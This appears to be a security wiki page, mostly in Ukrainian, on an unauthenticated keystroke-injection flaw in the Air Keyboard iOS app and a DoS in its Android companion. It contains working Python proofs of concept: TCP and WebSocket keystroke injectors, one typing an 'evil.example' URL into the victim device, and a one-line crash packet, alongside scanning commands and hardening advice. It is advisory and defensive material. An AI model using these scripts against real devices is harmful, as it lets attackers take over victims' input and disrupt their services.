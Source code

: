# Air Keyboard Remote Input Injection (Unauthenticated TCP / WebSocket Listener)

{{#include ../../banners/hacktricks-training.md}}

## TL;DR

iOS версія комерційного **“Air Keyboard”** додатку (App Store ID 6463187929) відкриває локальну мережеву службу, яка **приймає кадри натискань клавіш без будь-якої аутентифікації або перевірки походження**. В залежності від встановленої версії служба є:

* **≤ 1.0.4**  – сирий TCP слухач на **порті 8888**, який очікує заголовок довжини 2 байти, за яким слідує *device-id* та ASCII навантаження.
* **≥ 1.0.5 (червень 2025)**  – **WebSocket** слухач на *тому ж* порті (**8888**), який парсить **JSON** ключі, такі як `{"type":1,"text":"…"}`.

Будь-який пристрій в тій же Wi-Fi / підмережі може **впроваджувати довільний ввід з клавіатури в телефон жертви, досягаючи повного віддаленого захоплення взаємодії**.
Супутня Android версія слухає на **порті 55535**. Вона виконує слабкий AES-ECB хендшейк, але створене сміття все ще викликає **неконтрольоване виключення в OpenSSL**, що призводить до збоїв фонової служби (**DoS**).

> Уразливість **досі не виправлена на момент написання (липень 2025)**, і додаток залишається доступним в App Store.

---

## 1. Service Discovery

Скануйте локальну мережу та шукайте два фіксовані порти, які використовуються додатками:
```bash
# iOS (unauthenticated input-injection)
nmap -p 8888 --open 192.168.1.0/24

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```
На Android-пристроях ви можете локально визначити відповідний пакет:
```bash
adb shell netstat -tulpn | grep 55535      # no root required on emulator
# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                 # map PID → package name
```
На **jailbroken iOS** ви можете зробити щось подібне до `lsof -i -nP | grep LISTEN | grep 8888`.

---

## 2. Протокольні деталі (iOS)

### 2.1  Спадковий (≤ 1.0.4) – користувацькі бінарні фрейми
```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```
Заявлена *довжина* включає байт `device_id` **але не** два байти заголовка.

### 2.2  Поточна (≥ 1.0.5) – JSON через WebSocket

Версія 1.0.5 безшумно перейшла на WebSockets, зберігаючи номер порту незмінним. Мінімальний натиск клавіші виглядає так:
```json
{
"type": 1,              // 1 = insert text, 2 = special key
"text": "open -a Calculator\n",
"mode": 0,
"shiftKey": false,
"selectionStart": 0,
"selectionEnd": 0
}
```
Не потрібен жоден хендшейк, токен або підпис – перший JSON об'єкт вже викликає подію UI.

---

## 3. Експлуатація PoC

### 3.1 Цілеві ≤ 1.0.4 (сирий TCP)
```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard ≤ 1.0.4 (TCP mode)"""
import socket, sys

target_ip  = sys.argv[1]                 # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"    # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                        # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
s.sendall(frame)
print("[+] Injected", keystrokes)
```
### 3.2  Цілевказування ≥ 1.0.5 (WebSocket)
```python
#!/usr/bin/env python3
"""Inject keystrokes into Air Keyboard ≥ 1.0.5 (WebSocket mode)"""
import json, sys, websocket  # `pip install websocket-client`

target_ip = sys.argv[1]
ws        = websocket.create_connection(f"ws://{target_ip}:8888")
ws.send(json.dumps({
"type": 1,
"text": "https://evil.example\n",
"mode": 0,
"shiftKey": False,
"selectionStart": 0,
"selectionEnd": 0
}))
ws.close()
print("[+] URL opened on target browser")
```
*Будь-який друкований ASCII — включаючи переводи рядків, табуляції та більшість спеціальних клавіш — може бути надісланий, надаючи зловмиснику таку ж силу, як і фізичний ввід користувача: запуск додатків, надсилання IM, відкриття шкідливих URL, перемикання налаштувань тощо.*

---

## 4. Android Companion – Відмова в обслуговуванні

Android порт (55535) очікує **4-символьний пароль, зашифрований за допомогою жорстко закодованого AES-128-ECB ключа**, за яким слідує випадковий nonce. Помилки парсингу піднімаються до `AES_decrypt()` і не перехоплюються, що призводить до завершення потоку прослуховування. Один неправильно сформований пакет, отже, достатній, щоб утримувати законних користувачів відключеними, поки процес не буде перезапущено.
```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```
---

## 5. Супутні додатки – Повторювана антипатерн

Air Keyboard **не є ізольованим випадком**. Інші мобільні утиліти “віддалена клавіатура/миша” мають ту ж саму вразливість:

* **Telepad ≤ 1.0.7** – CVE-2022-45477/78 дозволяє неавтентифіковане виконання команд та записування клавіш у відкритому тексті.
* **PC Keyboard ≤ 30** – CVE-2022-45479/80 неавтентифіковане RCE та перехоплення трафіку.
* **Lazy Mouse ≤ 2.0.1** – CVE-2022-45481/82/83 за замовчуванням без пароля, слабкий PIN брутфорс та витік у відкритому тексті.

Ці випадки підкреслюють систематичне нехтування **мережевими поверхнями атаки на мобільних додатках**.

---

## 6. Корінні причини

1. **Відсутність перевірок походження/цілісності** на вхідних кадрах (iOS).
2. **Неправильне використання криптографії** (статичний ключ, ECB, відсутня перевірка довжини) та **відсутність обробки виключень** (Android).
3. **Право доступу до локальної мережі, надане користувачем ≠ безпека** – iOS запитує згоду на виконання LAN-трафіку, але це не замінює належну автентифікацію.

---

## 7. Укріплення та захисні заходи

Рекомендації для розробників:

* Прив'язати слухача до **`127.0.0.1`** та тунелювати через **mTLS** або **Noise XX**, якщо потрібен віддалений контроль.
* Виводити **секрети на пристрій під час onboarding** (наприклад, QR-код або PIN для парування) та забезпечити *взаємну* автентифікацію перед обробкою введення.
* Прийняти **Apple Network Framework** з *NWListener* + TLS замість сирих сокетів.
* Реалізувати **перевірки довжини** та структуровану обробку виключень під час розшифрування або декодування кадрів.

Швидкі виграші для Blue-/Red-Team:

* **Мережеве полювання:** `sudo nmap -n -p 8888,55535 --open 192.168.0.0/16` або фільтр Wireshark `tcp.port == 8888`.
* **Перевірка в реальному часі:** скрипт Frida, що підключає `socket()`/`NWConnection` для переліку несподіваних слухачів.
* **Звіт про конфіденційність додатків iOS (Налаштування ▸ Конфіденційність та безпека ▸ Звіт про конфіденційність додатків)** підкреслює додатки, які контактують з LAN-адресами – корисно для виявлення зловмисних сервісів.
* **Мобільні EDR** можуть додати прості правила Yara-L для JSON-ключів `"selectionStart"`, `"selectionEnd"` всередині TCP-пейлоадів у відкритому тексті на порту 8888.

---

## Лист для виявлення (Pentesters)
```bash
# Locate vulnerable devices in a /24 and print IP + list of open risky ports
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - \
| awk '/Ports/{print $2 "  " $4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do \
echo -n \"$p → \"; cat /proc/$p/cmdline; done"
```
---

## Посилання

- [Exploit-DB 52333 – Air Keyboard iOS App 1.0.5 Remote Input Injection](https://www.exploit-db.com/exploits/52333)
- [Mobile-Hacker Blog (17 Jul 2025) – Уразливість віддаленого введення в Air Keyboard iOS App досі не виправлена](https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/)

{{#include ../../banners/hacktricks-training.md}}
